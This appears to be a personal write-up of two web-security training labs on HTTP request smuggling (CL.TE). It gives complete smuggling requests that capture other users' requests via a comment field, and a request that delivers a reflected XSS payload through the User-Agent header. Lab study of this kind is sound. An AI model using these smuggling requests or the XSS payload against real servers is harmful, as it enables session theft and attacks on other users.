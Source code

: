 ### Exploiting HTTP request smuggling to capture other users' requests
After sending the first test request, it responds with a time out, so it seems to be a CL.TE vulnerability. Let's see. Yes, it was :P

For this, get the /post/comment request, set the "comment" parameter at the end, so you can append the victim's request. And then, add the POST / request, so you can craft your payload.
This is the final request:
```text
POST / HTTP/1.1
Host: 0a76007904790472803735a500090059.web-security-academy.net
Cookie: session=qAU3GDbaEGA1rVZ2y5GKjko9vT5IroKp
Content-Type: application/x-www-form-urlencoded
Content-Length: 253
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Cookie: session=qAU3GDbaEGA1rVZ2y5GKjko9vT5IroKp
Content-Type: application/x-www-form-urlencoded
Content-Length: 920            ---> Notice this. Must be a big number, since you want to be able to write the victim request.

csrf=j90sx8sAmyIwUgAnB34q2uDZ7nCseFAk&postId=4&name=test&email=test%40test.com&website=&comment=t
```

This is the output in the comment section:
![[Pasted image 20240519204640.png]]

---
### Exploiting HTTP request smuggling to deliver reflected XSS

Based on the first request results, it's a CL.TE vulnerability, let's now try to build our payload.

The vulnerability here, is that it's reflecting the User Agent, so you need to escape that, and inject the script there. 
This is your request:
```text
POST / HTTP/1.1
Host: 0ae7008703a19a5d82238451006400f6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

---